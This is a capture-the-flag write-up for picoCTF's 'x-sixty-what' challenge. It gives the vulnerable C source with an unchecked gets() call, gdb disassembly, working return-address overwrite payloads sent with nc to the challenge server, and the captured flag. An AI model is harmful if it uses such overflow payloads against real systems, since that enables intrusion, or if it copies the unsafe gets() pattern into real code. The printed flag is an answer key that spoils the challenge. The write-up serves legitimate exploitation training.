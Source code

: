# x-sixty-what
## Description
Overflow x64 code  
Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the `flag` function in this [program](vuln). [Download source](vuln.c).  
`nc saturn.picoctf.net 50517`
## Hints
1. Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes.
2. Jump to the second instruction (the one after the first `push`) in the `flag` function, if you're getting mysterious segmentation faults.
## Solution
1. This is a straight forward buffer overflow, but 64-bits vs 32-bits.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```
```console
% gdb -q vuln
Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x00000000004012b2 <+0>:	endbr64 
   0x00000000004012b6 <+4>:	push   rbp
   0x00000000004012b7 <+5>:	mov    rbp,rsp
   0x00000000004012ba <+8>:	sub    rsp,0x40
   0x00000000004012be <+12>:	lea    rax,[rbp-0x40]
   0x00000000004012c2 <+16>:	mov    rdi,rax
   0x00000000004012c5 <+19>:	mov    eax,0x0
   0x00000000004012ca <+24>:	call   0x401100 <gets@plt>
   0x00000000004012cf <+29>:	nop
   0x00000000004012d0 <+30>:	leave  
   0x00000000004012d1 <+31>:	ret    
End of assembler dump.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010c0  puts@plt
0x00000000004010d0  setresgid@plt
0x00000000004010e0  printf@plt
0x00000000004010f0  fgets@plt
0x0000000000401100  gets@plt
0x0000000000401110  getegid@plt
0x0000000000401120  setvbuf@plt
0x0000000000401130  fopen@plt
0x0000000000401140  exit@plt
0x0000000000401150  _start
0x0000000000401180  _dl_relocate_static_pie
0x0000000000401190  deregister_tm_clones
0x00000000004011c0  register_tm_clones
0x0000000000401200  __do_global_dtors_aux
0x0000000000401230  frame_dummy
0x0000000000401236  flag
0x00000000004012b2  vuln
0x00000000004012d2  main
0x0000000000401340  __libc_csu_init
0x00000000004013b0  __libc_csu_fini
0x00000000004013b8  _fini
```
2. We know the buffer is `64` bytes long and the address of `flag` is `0x401236`. Deliver the payload. Remember, the pushed value of RBP and targeted RIP is 8 bytes vice 4 bytes
```console
% (python -c "print('a'*64 + 'b'*8 + '\x36\x12\x40\x00\x00\x00\x00\x00')"; cat) | nc saturn.picoctf.net 50517
Welcome to 64-bit. Give me a string that gets you the flag: 


```
3. That didn't work. Pay attention to the hint and target `0x40123b`.
```console
(gdb) disas flag
Dump of assembler code for function flag:
   0x0000000000401236 <+0>:	endbr64 
   0x000000000040123a <+4>:	push   rbp
   0x000000000040123b <+5>:	mov    rbp,rsp
   0x000000000040123e <+8>:	sub    rsp,0x50
   0x0000000000401242 <+12>:	lea    rsi,[rip+0xdbf]        # 0x402008
   0x0000000000401249 <+19>:	lea    rdi,[rip+0xdba]        # 0x40200a
   0x0000000000401250 <+26>:	call   0x401130 <fopen@plt>
   0x0000000000401255 <+31>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401259 <+35>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x000000000040125e <+40>:	jne    0x401289 <flag+83>
   0x0000000000401260 <+42>:	lea    rdx,[rip+0xdac]        # 0x402013
   0x0000000000401267 <+49>:	lea    rsi,[rip+0xdba]        # 0x402028
   0x000000000040126e <+56>:	lea    rdi,[rip+0xde8]        # 0x40205d
   0x0000000000401275 <+63>:	mov    eax,0x0
   0x000000000040127a <+68>:	call   0x4010e0 <printf@plt>
   0x000000000040127f <+73>:	mov    edi,0x0
   0x0000000000401284 <+78>:	call   0x401140 <exit@plt>
   0x0000000000401289 <+83>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x000000000040128d <+87>:	lea    rax,[rbp-0x50]
   0x0000000000401291 <+91>:	mov    esi,0x40
   0x0000000000401296 <+96>:	mov    rdi,rax
   0x0000000000401299 <+99>:	call   0x4010f0 <fgets@plt>
   0x000000000040129e <+104>:	lea    rax,[rbp-0x50]
   0x00000000004012a2 <+108>:	mov    rdi,rax
   0x00000000004012a5 <+111>:	mov    eax,0x0
   0x00000000004012aa <+116>:	call   0x4010e0 <printf@plt>
   0x00000000004012af <+121>:	nop
   0x00000000004012b0 <+122>:	leave  
   0x00000000004012b1 <+123>:	ret    
End of assembler dump.
```
```console
% (python -c "print('a'*64 + 'b'*8 + '\x3b\x12\x40\x00\x00\x00\x00\x00')"; cat) | nc saturn.picoctf.net 50517
Welcome to 64-bit. Give me a string that gets you the flag: 
picoCTF{b1663r_15_b3773r_964d9987}
```
